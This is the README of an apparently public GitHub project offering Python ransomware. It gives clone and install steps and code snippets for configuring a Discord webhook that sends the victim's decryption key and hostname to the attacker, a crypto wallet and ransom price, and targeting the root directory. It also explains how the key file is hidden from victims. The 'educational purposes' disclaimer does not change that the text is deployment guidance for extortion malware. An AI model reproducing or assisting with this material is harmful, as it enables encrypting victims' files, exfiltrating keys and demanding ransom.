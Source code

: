 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

### Reminder...

![EDUCATIONPURPOSESONLY](https://i.ibb.co/NxbHwyM/winmiwnrih.png)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **Windows/Linux/Mac** run one of the following commands :

```bash
  git clone https://github.com/zaqoQLF/ransomware-python.git
```

```bash
  pip3 install -r requirements.txt or pip install -r requirements.txt
```

Or run the file `setup.py` and choose which type of installation you want.
```bash
  python3 setup.py
```

Or install all dependencies one by one : 

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```
  
In case you don't want to encrypt some files, you can specify it as I did in this line of code below.
- Attention, you must write the file name similar to the file you do not want to encrypt

So if you want to add `DoNotEncryptMe.txt` just add a line of code after the `setup.py` like this:

Do this for the 2 functions, its very important cause if you don't do that it will encrypt your files, or decrypt it.
But in the case you want to encrypt all victim's files, don't touch anything.

```python
   ... or file == 'DoNotEncryptMe.txt':
```
```python
    # In the encrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'requirements.txt' or file == 'setup.py' or file == 'ADD YOUR FILE NAME HERE':
```
```python
    # In the decrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'requirements.txt' or file == 'setup.py' or file == 'ADD YOUR FILE NAME HERE':
```
    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must run on your victim computer, or if you want to try you can ! but in a empty directory to avoid the encryption of all your files.
```python
  python3 ransomware.py
```
**[ ! ] Run it a first time will encrypt all files, running a second time will detect that the encryption already been applied so it will requests the key to decrypt all victim's file**


By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

Regarding encryption, all the encryption you will do will be automatically in bytes which means that you must decode -> strings to be able to use your variables or whatever you want.

In this script everything has already been done but if you want for example to send the key via email/smtp or other you will have to decode it.
- Here is a code sample :
```python
    from cryptography.fernet import Fernet

    key_encryption = Fernet.generate_key()

    _Key = Fernet(key_encryption)

    TextToEncrypt = _Key.encrypt(b'Hello World !') # Need to be in bytes

    # Output of TextToEncrypt : b'gAAAAABijpAFxDE5pe5EJHIPgdtfRNvSvk81wEXyueyyKhDYWt-0w13c2eJVFNBUmxB0WVTvnVccYxP0MrlM9asNC-oLLZ1mZQ=='

    # Then decrypt

    DecryptText = _Key.decrypt(TextToEncrypt) # Output : b'Hello World !'

    # As you see it will be in Bytes so to decode it to turn this variable into strings : 

    print(DecryptText.decode()) 

    # Output -> Hello World !
```

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

After that, few files will be created, first an `encryptionCheck.txt` will be create on the victim's computer this file will be used to check if this file exist. If its not it will encrypt all the file and if it already exist it will just ask the victim a ransom. So its a way to check if the encryption already been executed or not.

This `encryptionCheck.txt` is very useful but not the smarter way to do it but it makes the script more easier to understand and like this all the code is in one and unique script. 

After the encryption check file done, it will create a `rkey.key` file on the computer's victim. This will store the key in it but the victim will in no way know that the key is on his computer, moreover it will be mixed with a lot of files so impossible to find it for the victim. Since the files will have been modified, "The quick access" (folder on your computer) will be spammed by all the modified files, so it is impossible to find this key. 

Hello World File afer encryption : 

![AfterEncryption](https://i.ibb.co/ZGy4p3b/wuinduaw.png)

[!] To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.
  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)

## Screenshot of Shell
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


